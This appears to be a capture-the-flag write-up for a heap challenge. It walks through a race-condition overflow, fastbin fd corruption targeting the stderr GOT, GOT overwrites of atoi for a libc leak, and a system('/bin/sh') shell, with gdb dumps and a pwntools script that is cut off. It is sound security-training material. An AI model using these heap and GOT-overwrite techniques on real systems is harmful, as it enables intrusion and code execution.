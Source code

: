 * So now we use the race and get an overflow from the chunk just above the top. Thus we can overwrite the `fd` of 0x70 sized fastbin chunk.

Since we know the bss address and all libc addresses start with 0x7f, we can use one GOT value as target for fastbin corruption. Lets use `stderr` GOT address for this. So we overwrite the `fd` of the free chunk with `stderr` GOT +5-8.
The + 5 for getting the size as 0x7f and -8 as we need to give the start of the chunk in `fd`.

Now the next time we allocate chunk of size 0x70 we are returned the previously freeed top chunk and in the next request for size 0x70, we get the chunk in bss, just below `stderr`.

Here's how the area near `stderr` in bss looks like

```
0x6020c0 <stdout@@GLIBC_2.2.5>:	0x00007ffff7bb5620	0x0000000000000000
0x6020d0 <stdin@@GLIBC_2.2.5>:	0x00007ffff7bb48e0	0x0000000000000000
0x6020e0 <stderr@@GLIBC_2.2.5>:	0x00007ffff7bb5540	0x0000000000000000
0x6020f0 <ptr>:	0x0000000000000000	0x0000000000000000
0x602100 <size>:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120 <sema>:	0x0000000000000000	0x0000000000000000
0x602130 <sema+16>:	0x0000000000000000	0x0000000000000000
```
And here's the area aligned as a heap chunk

```
gdb-peda$ x/xg 0x6020dd
0x6020dd:	0xfff7bb5540000000   <--Chunk start
0x6020e5 <stderr@@GLIBC_2.2.5+5>:	0x000000000000007f
0x6020ed:	0x0000000000000000    <-- We have write access from here
0x6020f5 <ptr+5>:	0x0000000000000000
0x6020fd <author+5>:	0x0000000000000000
0x602105:	0x0000000000000000
```
So we can basically overwrite the value of `ptr`. Lets overwrite this with GOT address of `atoi`. First to get a leak. For this edit the chunk (which is basically GOT of `atoi`) and make its value as PLT of `printf`. Then use format strings to leak out libc. After this edit the chunk again to overwrite `atoi` GOT with `system` address. Next time the prompt for option is presented, enter `/bin/sh` and booooom, you get a shell!

Here's my exploit script for the same -
```python
from pwn import *
import sys

HOST='localhost'
PORT=3333


def connect():
    if len(sys.argv)>1:
        r=remote(HOST,PORT)
    else:
        r=process('./chall')

libc=ELF("./libc.so.6")

def menu(opt):
    r.sendlineafter("Enter choice >> ",str(opt))

def edit(data):
    menu(2)
    r.sendlineafter("Enter new data: ",str(data))

def race_cond(size,data,size2,data2,size2_act,auth):
    menu(1)
    r.sendlineafter("How many chunks at a time (1/2) ? ",'2')
```